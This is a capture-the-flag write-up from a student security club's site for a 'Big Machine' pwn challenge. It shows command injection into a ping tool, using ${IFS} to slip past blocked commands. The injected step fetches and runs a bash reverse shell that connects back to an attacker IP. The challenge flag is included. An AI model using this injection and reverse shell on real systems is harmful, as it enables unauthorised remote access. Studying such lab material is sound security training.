

repository: cyscomvit/writeups · page: writeups/CyberConverge_2025/02-Big-machine.html · generator: jekyll

---
layout: writeup

title: Big Machine
difficulty: Hard
points: 500
categories: [Pwn]
tags: []

flag: CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
---

### Big Machine
* Author: Aakansh Gupta (Unknown)

Check the website on the given url

<img src="./images/big.png" />

It shows the pin result for given IPs.
Try and get a reverse shell on it.
Since most common commands are blocked, we try and send a script from attacked to the machine like: 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1

```
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x `
We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.

After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using `env` , you get the flag
